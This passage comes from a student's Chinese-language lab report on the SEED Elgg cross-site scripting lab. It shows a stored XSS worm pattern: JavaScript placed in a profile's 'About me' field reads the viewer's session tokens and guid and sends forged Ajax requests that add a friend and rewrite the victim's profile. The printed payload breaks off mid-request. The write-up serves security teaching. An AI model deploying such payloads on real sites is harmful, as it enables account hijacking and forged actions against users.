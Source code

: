  分析：

  代码获取了`elgg_ts=`和`elgg_token=`两个请求参数的内容，然后通过Ajax发送请求。

- 先保证Boby没有添加Alice为好友。

- 将上述代码添加到Alice的`About me`中。

  > 注：此字段提供两种编辑模式——编辑器模式（默认）和文本模式。
  >
  > 编辑器模式向字段中键入的文本添加额外的HTML代码，而文本模式不添加。在输入上述JavaScript代码之前切换成文本模式，这样攻击代码中不会添加任何额外的代码。

  ![image-20200513233335215](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-9.png)

- 登录Boby用户，此时是没有好友的，访问Alice主页，再返回自己主页，发现已经有Alice好友了，如图：

  ![image-20200513234141268](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-10.png)

---

**（6）修改受害者的信息**

---

- 和上一个问题类似，我们首先要用HTTP Header Live看看修改资料时要做那些事情。为此我们登录Alice，点击`Edit profile`并保存，并同时使用`HTTP Header Live`查看发送的数据。我们得到如下图的信息：

  ![image-20200514000408921](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-11.png)

  分析：

  - 请求的方式是`POST`
  - 请求的地址是`http://www.xsslabelgg.com/action/profile/edit`
  - 请求地址的第一个参数是`&__elgg_token=`
  - 请求地址的第二个参数是`&__elgg_ts=`
  - 请求地址的第三个参数是`&__name=elgg.session.user.name`

- 综合上面的分析，实验指导中给出了如下的代码用于xss攻击修改受害者信息：

  ```
  <script type="text/javascript">
  	window.onload = function(){
  		//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  		//and Security Token __elgg_token
  		var userName=elgg.session.user.name;
  		var guid="&guid="+elgg.session.user.guid;
  		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  		var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  		//Construct the content of your url.
  		var content= token + ts + "name=" + userName + "&description=<p>this had been changed by xss attack.</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2" + guid;
  		var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
  		alert(content)
  		//FILL IN
  		var samyGuid=44;
  		//FILL IN
  		if(elgg.session.user.guid!=samyGuid)
  		{
  			//Create and send Ajax request to modify profile
  			var Ajax=null;
  			Ajax=new XMLHttpRequest();
  			Ajax.open("POST",sendurl,true);
  			Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  			Ajax.setRequestHeader("Content-Type",
  			"application/x-www-form-urlencoded");
  ```